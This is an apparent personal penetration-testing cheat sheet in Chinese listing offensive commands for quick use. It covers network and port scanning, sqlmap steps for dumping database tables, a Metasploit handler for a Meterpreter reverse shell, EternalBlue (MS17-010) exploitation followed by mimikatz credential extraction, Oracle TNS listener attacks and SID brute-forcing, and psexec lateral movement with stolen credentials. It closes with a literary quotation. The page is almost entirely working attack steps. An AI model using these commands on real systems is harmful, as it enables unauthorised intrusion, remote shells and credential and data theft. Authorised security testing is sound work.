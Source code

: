 # Speed-PenTest 
`常用的渗透操作`
[TOC]

---

# 通用
## 信息收集
### IP扫
>netdiscover -r 1.1.1.0/24

### 端口扫
>nmap -T5 -A -v 1.1.1.1

---

# Web
## SQL注入
### sqlmap
```sql
sqlmap -u URL	判断注入
sqlmap -u URL --current-db	 获取当前数据库
sqlmap -u URL -D DATABASE --tables		获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns	获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump		获取指定表的列名
```

## 业务渗透
### openssl
MassBleed
sslscan
testssl

---

# 监听器
## handler
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST
set LPORT
```

## exp
### ms17-010
```bash
发现，检测
use auxiliary/scanner/smb/smb_ms17_010

使用payload连上去
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set lhost   #设一下本机地址
set rhosts 
run

msf 下
加载mimikatz模块
load mimikatz
kerberos
```

## poc
### CVE-2012-1675 Oracle TNS Listener Remote Poisoning
```bash
use auxiliary/admin/oracle/tnscmd   #该漏洞可以远程获取到oracle的内存信息，若是能获取到内存中的数据即为存在漏洞。
use auxiliary/admin/oracle/sid_brute  #爆破oracle的SID
```

## 域
cmd 下
```bash
#如果没有psexec工具记得找pstool工具包，传一个上去
psexec \\hostIp -u [username] -p [password] cmd
```

`日后我们知道，真正的人生道路是由内心决定的。不论我们的道路看上去如此曲折、如此荒谬地背离我们的愿望，它终归还是把我们引到我们看不见的目的地。（茨威格《昨日世界》） `

